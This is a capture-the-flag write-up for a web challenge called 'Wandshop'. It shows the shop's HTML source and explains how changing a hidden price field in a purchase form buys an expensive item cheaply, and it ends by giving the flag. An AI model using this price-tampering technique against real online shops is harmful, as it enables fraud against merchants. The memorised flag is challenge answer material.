 ```yaml
---
layout: default
---
```


![Wandshop (100 pts)](./screenshots/Wandshop.png)
---
## CHALLENGE INFO
- __CHALLENGE LINK__: https://wandshop.tghack.no/
- __LANDING PAGE__:

  ![homepage](./screenshots/Wandshop_home.png)

- __ASSUMED OBJECTIVE__: Increase a wand's __*SKU*__ or decrease __*Elder Wand's cost*__

---

## Step 1 : Examine the Page Souce

- Page Source:
  ```html
  <html>
  <head>
      <title>OllyDbg Wands</title>
  </head>
  <body>


      <h1>Your credit: 1337 coins</h1>
      <h1>Shopping cart:</h1>
      <ul>
      
          <form action="/" method="post">
              <input type="hidden" name="csrfmiddlewaretoken" value="6s723TbsAI7SK6bkAhcJ4iA0GFG1f6RvW8J2pIwKvWplEGIm0OxdY3yqS5cId96m">
              <input type="hidden" name="action" value="reset"/>
              <button>Reset</button>
          </form>
      <form action="/" method="post">
          <input type="hidden" name="csrfmiddlewaretoken" value="6s723TbsAI7SK6bkAhcJ4iA0GFG1f6RvW8J2pIwKvWplEGIm0OxdY3yqS5cId96m">
          <input type="hidden" name="action" value="order"/>
          <button>Send order</button>
      </form>
      </ul>
      <h1>Items</h1>
      <div style="display: flex; flex-direction: row;">
            
              <div style="width: 10em; height: 10em; text-align: center; background-color: lightgray; margin: 0.5em;">
                  <strong>Horse-hair wand</strong><br/>
                  SKU: 1<br/>
                  Price: 123.00 coins
                  <form action="" method="post">
                      <input type="hidden" name="csrfmiddlewaretoken" value="6s723TbsAI7SK6bkAhcJ4iA0GFG1f6RvW8J2pIwKvWplEGIm0OxdY3yqS5cId96m">
                      <input type="hidden" name="action" value="add_cart"/>
                      <input type="hidden" name="sku" value="1"/>
                      <input type="hidden" name="price" value="123.00"/>
                      <button type="submit">Add to cart</button>
                  </form>
              </div>
           
              <div style="width: 10em; height: 10em; text-align: center; background-color: lightgray; margin: 0.5em;">
                  <strong>Dragon-bone wand</strong><br/>
                  SKU: 2<br/>
                  Price: 323.00 coins
                  <form action="" method="post">
                      <input type="hidden" name="csrfmiddlewaretoken" value="6s723TbsAI7SK6bkAhcJ4iA0GFG1f6RvW8J2pIwKvWplEGIm0OxdY3yqS5cId96m">
                      <input type="hidden" name="action" value="add_cart"/>
                      <input type="hidden" name="sku" value="2"/>
                      <input type="hidden" name="price" value="323.00"/>
                      <button type="submit">Add to cart</button>
                  </form>
              </div>
            
              <div style="width: 10em; height: 10em; text-align: center; background-color: lightgray; margin: 0.5em;">
                  <strong>Troll-snot wand</strong><br/>
                  SKU: 3<br/>
                  Price: 723.00 coins
                  <form action="" method="post">
                      <input type="hidden" name="csrfmiddlewaretoken" value="6s723TbsAI7SK6bkAhcJ4iA0GFG1f6RvW8J2pIwKvWplEGIm0OxdY3yqS5cId96m">
                      <input type="hidden" name="action" value="add_cart"/>
                      <input type="hidden" name="sku" value="3"/>
                      <input type="hidden" name="price" value="723.00"/>
                      <button type="submit">Add to cart</button>
                  </form>
              </div>
            
              <div style="width: 10em; height: 10em; text-align: center; background-color: lightgray; margin: 0.5em;">
                  <strong>Elder Wand</strong><br/>
                  SKU: 321<br/>
                  Price: 5000.00 coins
                  <form action="" method="post">
                      <input type="hidden" name="csrfmiddlewaretoken" value="6s723TbsAI7SK6bkAhcJ4iA0GFG1f6RvW8J2pIwKvWplEGIm0OxdY3yqS5cId96m">
                      <input type="hidden" name="action" value="add_cart"/>
                      <input type="hidden" name="sku" value="321"/>
                      <input type="hidden" name="price" value="5000.00"/>
                      <button type="submit">Add to cart</button>
                  </form>
              </div>
          
      </div>

  </body>
  </html>
  ```
  __Notes__:
  - You have 1337 coins as credits
  - Each wand's attriutes are passed as *hidden input* in individual forms
  - You __can__ change the wand's price but not your credits

---

## Step 2 : Purchase the Elder Wand

1. Change the __*Elder Wand's price*__ to at most __1337 coins__
   ```html
   <div style="width: 10em; height: 10em; text-align: center; background-color: lightgray; margin: 0.5em;">
       <strong>Elder Wand</strong><br/>
       SKU: 321<br/>
       Price: 5000.00 coins
       <form action="" method="post">
           <input type="hidden" name="csrfmiddlewaretoken" value="6s723TbsAI7SK6bkAhcJ4iA0GFG1f6RvW8J2pIwKvWplEGIm0OxdY3yqS5cId96m">
           <input type="hidden" name="action" value="add_cart"/>
           <input type="hidden" name="sku" value="321"/>
           <input type="hidden" name="price" value="1337.00"/>
           <button type="submit">Add to cart</button>
       </form>
   </div>
   ```
2. Press __Add to cart__
   
   ![Add to cart](./screenshots/Wandshop_cart.png)

3. Press __Send order__
   ```
   Yay! You ordered an Elder Wand. FLAG: TG19{Elder wand iz best wand}
   ```

---

## FLAG : __TG19{Elder wand iz best wand}__
